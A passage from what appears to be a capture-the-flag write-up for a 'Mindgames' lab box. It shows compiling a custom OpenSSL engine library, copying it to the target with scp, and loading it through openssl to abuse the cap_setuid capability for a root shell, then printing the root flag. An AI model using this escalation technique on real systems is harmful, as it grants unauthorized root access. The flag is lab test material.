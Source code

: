 Now compile your engine as a shared library run the following commands.

```
gcc -fPIC -o ssl-setuid.o -c ssl-setuid.c

gcc -shared -o ssl-setuid.so -lcrypto ssl-setuid.o
```
You'll have a shared library `ssl-setuid.so` as output.

Now, we upload to our target. We can utilise the same python http server method as above. Alternatively, if you set up ssh persistence, we can use scp to copy the file to the target. 

```
scp -i id_rsa ssl-setuid.so mindgames@10.10.11.203:~
```

Now on the target machine navigate to the location of the ssl-setuid.so shared library we just uploaded. We can now run openssl passing our custom engine with our exploit code and exploit the `cap_setuid+ep` to set our uid to root and spawn a bash shell.

```
mindgames@mindgames:~$ openssl req -engine ./ssl-setuid.so 
root@mindgames:~# whoami
root
root@mindgames:~# 
```

We have root!

## Root flag

With root, lets navigate to the root home directory where the flag is most likely to be located. 

```
root@mindgames:~# cd /root
root@mindgames:/root# ls
root.txt
root@mindgames:/root# cat root.txt 
thm{1974a617cc84c5b51411c283544ee254}
```

We have the root flag and we're done!